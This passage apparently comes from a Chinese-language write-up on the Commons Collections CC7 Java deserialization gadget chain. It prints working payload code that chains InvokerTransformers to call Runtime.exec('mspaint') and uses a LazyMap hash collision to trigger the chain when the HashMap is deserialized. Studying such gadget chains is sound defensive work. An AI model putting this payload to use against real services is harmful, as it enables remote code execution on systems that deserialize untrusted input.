 	    public static Object getPayload() throws Exception{
	        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
	                new ConstantTransformer(1)
	        });
	
	        Transformer[] trueTransformer = {
	                new ConstantTransformer(Runtime.class),
	                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[0]}),
	                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{Runtime.class,new Object[0]}),
	                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"mspaint"})
	        };
	
	        HashMap<Object, Object> hashMap1 = new HashMap<>();
	        HashMap<Object, Object> hashMap2 = new HashMap<>();
	
	        // 让两个LazyMap的hashcode相同，于是HashTable反序列化时，会出现hash碰撞
	        // 且key不能一样，否则LazyMap.get(key)中不会触发transformer
	        hashMap1.put("p1n93r",1);
	        hashMap2.put("p1n93s",6);
	
	        Map lazyMap1 = LazyMap.decorate(hashMap1, chainedTransformer);
	        Map lazyMap2 = LazyMap.decorate(hashMap2, chainedTransformer);
	
	        // 使用HashTable和HashMap都一样，只要产生hash碰撞即可
	        HashMap<Object, Object> res = new HashMap<>();
	        res.put(lazyMap1,1);
	        res.put(lazyMap2,2);
	
	        // 最后记得把真正的执行链放入chainedTransformer
	        Class<? extends ChainedTransformer> chainedTransformerClass = chainedTransformer.getClass();
	        Field iTransformers = chainedTransformerClass.getDeclaredField("iTransformers");
	        iTransformers.setAccessible(true);
	        iTransformers.set(chainedTransformer,trueTransformer);
	
	        // 因为HashMap#put时就发生了hash碰撞，所以导致LazyMap1内部新增了一个键值对：{"p1n93s",1}
	        // 需要删除，防止反序列化时LazyMap1#get("p1n93s")中不会进入transformer
	        lazyMap1.remove("p1n93s");
	
	        return res;
	    }


​	
	    public static void main(String[] args) throws Exception{
	        Object payload = getPayload();
	        SerialUtil.runPayload(payload);
	    }
	}




调用栈如下所示：

![CC7调用栈][p15]
